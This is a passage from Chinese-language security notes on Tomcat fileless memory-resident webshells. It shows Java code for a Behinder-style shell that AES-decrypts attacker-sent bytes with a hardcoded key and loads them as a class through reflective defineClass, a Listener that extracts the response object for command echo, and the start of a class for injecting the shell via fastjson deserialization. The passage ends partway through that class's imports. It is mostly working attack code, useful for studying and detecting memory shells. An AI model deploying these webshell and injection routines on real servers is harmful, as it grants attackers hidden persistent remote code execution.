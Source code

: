 ```java
            String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            //revision BehinderFilter
            Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
            Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
            evilclass.newInstance().equals(pageContext);
            return;
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```
![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_52_90XMOu7r.png)

## 反序列化注入Listener
在[Tomcat基础内存马入门](https://www.yuque.com/da-labs/secnotes/ro4qph)中，Tomcat注入内存马中除了注入Filter，Servlet，还有Listener，但是在该篇中对request理解并不深，未深入研究是否可以回显，在此处发现可以通过request获取response
```java
@Override
public void requestInitialized(ServletRequestEvent servletRequestEvent) {
    try{
        HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();
        Field requestF = req.getClass().getDeclaredField("request");
        requestF.setAccessible(true);
        Request request = (Request)requestF.get(req);
        HttpServletResponse response = request.getResponse();
        // 执行命令部分...
    }catch (Exception e){
        e.printStackTrace();
    }
}
```
### 注入普通马
对应的TomcatInjectListener
```java
package com.fastjson.test;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
```